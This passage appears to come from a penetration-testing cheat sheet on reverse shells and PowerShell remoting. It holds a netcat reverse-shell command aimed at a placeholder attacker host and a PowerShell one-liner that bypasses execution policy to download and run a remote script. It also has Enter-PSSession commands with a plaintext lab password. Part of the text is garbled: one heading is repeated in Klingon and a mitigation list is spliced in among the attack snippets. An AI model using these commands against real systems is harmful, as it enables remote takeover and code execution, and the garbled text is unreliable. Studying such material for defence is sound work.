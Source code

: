```
target$ nc <attacker_ip> <attacker_port> -e /bin/bash
```

In this example, the attacker listens for incoming connections on the specified port, while the target system connects back to the attacker's machine and opens a shell session.

#### Mitigation
To prevent reverse shell attacks, it is important to:
- Regularly update and patch software to fix vulnerabilities.
- Implement strong access controls and authentication mechanisms.
- Monitor network traffic for suspicious activity.
- Use intrusion detection and prevention systems.
- Employ network segmentation to limit the impact of a successful attack.
```powershell
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```
### Get a PS session

To get an interactive PowerShell shell use `Enter-PSSession`:

---

### Qapla' PS session

Qapla' interactive PowerShell shell vItlhutlh `Enter-PSSession`:
```powershell
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

# Enter
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
## Bypass proxy
Enter-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
# Save session in var
$sess = New-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
## Background current PS session
Exit-PSSession # This will leave it in background if it's inside an env var (New-PSSession...)
```
![](<../.gitbook/assets/image (164).png>)
